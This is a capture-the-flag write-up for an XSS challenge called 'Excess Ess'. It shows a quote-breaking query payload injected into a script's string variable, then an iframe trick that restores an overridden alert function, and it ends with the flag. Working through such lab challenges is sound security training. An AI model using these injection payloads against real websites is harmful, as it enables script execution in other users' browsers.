 # Excess Ess [51]
> This is some kind of reverse captcha to tell if the visitor is indeed a robot. Can you complete it?
>
> Service: [http://xss1.alieni.se:2999/](http://xss1.alieni.se:2999/)

We are presented with a page instructing us to pop an alert box on the page by injecting some content through a query parameter called 'xss'. If we click on the example of xss=hello and view the page source, we see that it injects our input into the context of a string variable inside of a script tag.
```
<script>var x ='hello'; var y = `hello`; var z = "hello";</script>
```
Each of the variables use different types of quotations, but that doesn't matter because we only need one of them anyways. So lets start by submiting a single quote in order to get some javascript execution. Note that adding the comment at the end means we don't have to worry about our injected text causing the later parts of the script to throw syntax errors.
```
.../?xss=hello'; alert(1); //
```
This seems promising, but also not quite right.

![Excess Ess 1](https://i.imgur.com/Vd50TTz.png)

This is a prompt box, not an alert. And when we try to submit the url it doesn't work. Scanning the page source for anything javascript or prompt related, we find this tag:
```
<script src="/static/no_alert_for_you.js"></script>
```
And of course this script is turning the alert box into a prompt...

![Excess Ess 2](https://i.imgur.com/kIjlTAB.png?1)

So in order to get the correct alert to show up we have to somehow retrieve the original alert function first before we can call it. A quick google (or duckduckgo for those not wishing to land on an FBI watch list) search reveals that one way, or really the only way of doing this is by creating an iframe and then retrieving the function out of the `contentWindow` object of that iframe. Our payload then becomes something like this.

```
var f = document.createElement('iframe');
f.style.display='none';  // Hiding the iframe is completely optional
document.body.append(f);
window.alert = f.contentWindow.alert;
document.body.removeChild(f); // Removing the iframe is also optional
window.alert(1);
```

Or if we slap it into the query string:
```
.../?xss=hello'; var f = document.createElement('iframe'); document.body.append(f); window.alert = f.contentWindow.alert; window.alert(1); //
```
And this time we actually see the correct alert.

![Excess Ess 3](https://i.imgur.com/GVmvkMf.png)

We submit the full url of this payload to the page and get the flag: `sctf{cr0ss_s1te_n0scr1ptinG}`
